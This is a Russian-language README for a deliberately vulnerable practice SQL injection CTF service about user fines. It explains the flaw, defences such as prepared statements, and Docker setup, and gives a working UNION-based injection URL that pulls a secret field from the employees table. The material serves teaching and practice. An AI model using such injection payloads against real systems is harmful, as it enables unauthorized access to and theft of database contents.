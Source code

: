 # Practice SQLI CTF

## Краткое описание уязвимости
SQL Injection - уязвимость, которая позволяет злоумышленнику создавать запросы к SQL базам данных, не предусмотренные разработчиком.
Возникает она из-за неправильной обработки данных, которые впоследствие присутствуют в запросе к базе данных.
Данный сервис позволяет получить все штрафы пользователя по имени человека.

## Способы защиты от уязвимости
- Корректная обработка и экранирование входных данных.
- Настройка прав доступа к базе данных.
- Использование `prepared statements` и параметризированных запросов.

## Запуск приложения
Для запуска приложения нужно:
1. Склонировать репозиторий:
```bash
git clone https://github.com/MinaevMax/Practice_SQLI.git
cd Practice_SQLI
```
2. Запуск приложения через docker-compose:
```bash
docker-compose up --build
```
3. Приложение будет запущено по адресу: [http://localhost:8080](http://localhost:8080)

## Описание уязвимости конкретно в данном приложении
Сервис позволяет получить флаг, находящийся в поле secret у сотрудника(таблица `employees`), выписавшего наибольшую сумму штрафов.
Есть хэндлер, который возвращает из бд только поля id штрафа и имя на кого он выписан.
Для того, чтобы получить флаг, нужно передать вместо имени запрос, который фильтрует и возвращает поле secret у нужной записи.

## POC-эксплоит для получения флага
Для получения флага, необходимо получить запись из таблицы, недоступной для получения из хэндлера.
Сделать это можно воспользовавшись SQL командой `UNION`, которую нужно использовать в передаваемом тексте.
Например, подойдет следующий запрос:
```http://localhost:8080/bills/check?name=' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''='```
Для него, запрос к БД будет выглядеть следующим образом: 
```SELECT id, name, value FROM billdb.bills WHERE name='' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''=''```
В результате запрос вернет поле secret для сотрудника с наибольшей суммой штрафов, что и есть флаг.
Хэндлер возвращает 3 параметра: id штрафа, name человека, value штрафа, обернутые в текстовую оболочку. 
При получении флага `id` и `value` будут 0, а поле `name` будет отображать флаг(Это следует из запроса в примере).

Выполнение запросов лучше и удобнее всего проводить через программу Postman.